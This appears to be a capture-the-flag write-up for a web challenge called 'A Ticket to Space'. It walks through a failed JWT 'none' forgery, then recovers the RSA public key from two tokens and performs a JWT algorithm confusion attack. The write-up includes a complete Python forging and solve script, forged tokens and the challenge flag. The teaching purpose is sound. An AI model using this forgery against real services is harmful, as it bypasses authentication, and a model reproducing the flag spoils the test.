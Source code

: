 # A Ticket to Space

#### Category: Web Exploitation

#### Difficulty: Medium

#### Type: Black Box

#### Description: I have always wanted to go to space. Now they offer a program that will allow me to fulfill my dream! But the queue is a little long, and I'm not sure if I'll still be here when my turn arrives...  I wonder if there is a way to bypass the queuing system.

![image](https://github.com/user-attachments/assets/8c2f4250-53d8-463c-be5c-3828a186b3ab)


## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:3000`

## Solution
<details>

<br>

Since the web exploitation is a black box challenge, source code are not provided and it is required for the players to perform analysis themself and figure out the possible vulnerability. Accessing to the website, a webpage will be displayed like this and it should simulate like a ticket queuing system.

<br>

![image](https://github.com/user-attachments/assets/1fd26ac1-3aa4-4dcb-b933-962368016e73)

<br>

When the 'Buy Tickets' button is clicked, an alert message 'Not your turn yet! Please Wait!' will appear as the user is not authorized to access the ticket purchasing site yet.

<br>

![image](https://github.com/user-attachments/assets/f7519d5c-1ae0-45f6-8703-a56137ebbc71)

<br>

To further understand on how does the website checks the user's authorization, inspecting the frontend side should provide some valuable information.

### Frontend Source Code (Javascript)
```javascript
 window.onload = function() {
    if (!localStorage.getItem("jwt")) {
    fetch("/genToken", {
        method: "GET",
        headers: {
        "Content-Type": "application/json"
        }
    })
    .then(res => res.json())
    .then(data => {
        localStorage.setItem("jwt", data.token);
    })
    .catch(err => console.error("Error getting token:", err));
    }
    };
    
    function BuyTicket() {
    const token = localStorage.getItem("jwt");
    if (!token) {
        alert("No token found.");
        return;
    }
    fetch("/buyTicket", {
        method: "GET",
        headers: {
            "Authorization": `Bearer ${token}`
        }
    })
    .then(async (response) => {
        if (!response.ok) {
            const data = await response.json();
            alert(data.message || "Access denied");
            return;
        }
        const html = await response.text();
        document.open();
        document.write(html);
        document.close();
    })
    .catch(error => {
        console.error("Error:", error);
        alert("Something went wrong.");
    });
}
```
<br>

It seems that the website will fetch the `/genToken` to generate a unique Json Web Token (JWT) for each of the user and stored in the localStorage which will be retrieved later on to check the validity of the token in the `/buyTicket`. If the token validity returns invalid, it will deny the user access to the site. Now let's obtain the JWT from the localStorage for further analysis.

<br>

![image](https://github.com/user-attachments/assets/84c96782-0c5c-445b-95a5-6406a12eccb9)

<br>

When decoding the JWT using an online tool such as [jwt.io](https://jwt.io/). We can see that the JWT uses RS256 algortihm to secure their token. It also contain the payload `{"purchasePerm" : false}` which most likely is the mechanism used to check the validility of the token from the backend server. Therefore, changing the boolean of the payload to `{"purchasePerm" : true}` should work right? Unfortunately for RS256 algorithm, modifying the payload without a valid private key will not work because the server will use the public key to decode the token and checks the payload. Modifying the token without private key will cause the token to be not recognizable by the server and result in invalid token.

<br>

![image](https://github.com/user-attachments/assets/e3985a60-d8de-43e7-b2d1-b683c4c95a48)

<br>

Thus, the website may have two potential vulnerabilities which are [JWT Algorithm "None"](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f) or [JWT Algorithm Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion). Let's first explore the algorithm "None" exploit and determine whether it works. We can use jwt.io to switch the algorithm to `none` and forged a token containing a header like `{"alg" : "none" , "type" : "JWT"}` and also change the payload to `{"purchasePerm" : true}`. The forged token will look something like this `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwdXJjaGFzZVBlcm0iOnRydWUsImV4cCI6MTc0NTE2ODg5OCwiaWF0IjoxNzQ1MTY1Mjk4fQ.`.

<br>

![image](https://github.com/user-attachments/assets/8a690b70-a261-44f6-860d-5eadd8209dff)

<br>

Then, we can replace the token in the localStorage with the forged token and attempt to access the `/buyTicket`. As a result, the algorithm "None" exploit does not work because the server will not accept token with "None" algorithm so it returns 'Token Authentication Failure'. Therefore, the JWT Algorithm "None" is not the solution ❎ and now we only have one possible vulnerability left which is JWT Algorithm Confusion.

<br>

![image](https://github.com/user-attachments/assets/efe7c9ab-7860-4031-bb1b-997b62e70bcc)

<br>

JWT Algorithm Confusion require us to retrieve the public key which will be used as the HMAC shared secret key after changing the algorithm to HS256 in the JWT header. Most of the time server will exposed their public keys in common path like `/jwks.json` , `/known-path/jwks.json`, & `/public.pem`. However, after several attempts on trying to retrieved the exposed public keys through known path has resulted in nothing. We can assume that the server was configured properly to ensure that the public key does not get exposed.

<br>

![image](https://github.com/user-attachments/assets/3d0a6bc1-faa1-493b-bbd4-203219c14021)

<br>

Fortunately, there is an interesting method that can be used to retrieved the public keys if they are not exposed. A great tool developed by nu11secur1ty called [rsa_sign2n](https://github.com/nu11secur1ty/rsa_sign2n/blob/main/README.md) can derived the public keys from existing tokens which we need to generated two tokens from the website for the tool to work.

First Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2MzgsImlhdCI6MTc0NTE3NDAzOH0.iTWhbTm90rdNtA10xmwiV0I7S-eD1veCkDgCqbBt5wer6ds1sHJDl5tNZQZcnwfBtYiaMhNG-DqTB7VfTbaYTWJRHNxr6n_UJmXB_XjWBtNkIpGwPHwkJBmebngg-VZuXOvo2NP8wv0TpdF3GRLQENonGFY37l5cYmATtKsNBUlTrvKwp0KLrLpIS8-uufXXkxha5SL6sDmj5z9Mmhwv-At7O0C4ZE8cijfhj48KXWcHk1fQFl1lYVPovqygh3tkJOW2avUO0HehDs6o5YX833aFhOox9kya7DbpPBcW9UEh62_EfFk2L1G1xgZg04vHcTzFYxrX62oaz804FyZHRQ`

After deleting the token and refresh the page will generate another new token.

Second Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2NTcsImlhdCI6MTc0NTE3NDA1N30.GMSDZvtmFlYGT8dcpk04rHWx6PDM-4DAuzzSXtuvRLfp9-IlVxuwe2MsjzjBGIFU9NLrBhxMkruqm2HcNrDHVkz-NUVDKWmLRED0_VJ9FGwIEARkkZqS-dHXA56x0QxGpUVWSq43_1u_qFi8ZczYAr_O9iXEDmTnBFl2Xu_zLZ0OYOlhKSEnCiGbWUlju2UH-nflysT_I7ENrUTFp_wixpPNYVxfZWLk16ixarISbOixvMdL5rYbYZmPEwos5Lz0-ix4gxmPcY1J2luLRhhQPdkaqKBwMzpSQjwex6N63gHt7kGk_kVfHr1B0L-CIYPazNBn9W5qQcUUVTbvVbzBlg`

Now we have two tokens ready and we can use the tool after successful installation. The command should be like this `python3 jwt_forgery.py token1 token2`. When the process is completed, it should display the result like the image below.

<br>

![image](https://github.com/user-attachments/assets/c35c26da-238a-402d-aa1a-3f6aa07e5d4f)

<br>

Now we need to get the public keys from the result. The public keys will usually stored in x509.pem format and we can use `cat` command to obtain the contents of the file. We need to copy the following public keys into a newly created file called `public.pem` which will be used for later on.

![image](https://github.com/user-attachments/assets/55931d70-3c22-4b42-b023-11062acd7241)

<br>

Getting the public key is a crucial step for the JWT Algorithm Confusion attack to work. Now we can forge our own token by creating a simple python script. Firstly we need to read the `public.pem` file to strip unwanted contents and covert to proper format before using it as the HMAC secret.

```python
with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)
```

Then, we need to modify the algorithm to HS256 like `{"typ" : "JWT", "alg" : "HS256"}` and changing the payload data to `{"purchasePerm" : True}`. Now, we can forge the token containing HS256 algorithm along with public key as the HMAC secret.

```python
payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)
```

Finally, we can send the token to the website using `Authorization: Bearer` to `/buyTicket` endpoint.

```python
response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

#### Full Solve Script (Python)

```python
import jwt
import requests
import base64
import os

with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)

payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)

response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

After executing the script we are able to obtain the flag which indicates that the JWT Algorithm Confusion attack has been successfully demonstrated. 

<br>

![image](https://github.com/user-attachments/assets/2903c906-3926-428e-84f7-0a481c735758)

<br>

![image](https://github.com/user-attachments/assets/e138a6eb-5794-4cdc-8500-7bf19dd4a7db)

<br>

### Flag
>ICTF25{3678087349b1b6d839e019a16d5483621af5b09c7d36fc6df346edd4425e7802}
</details>
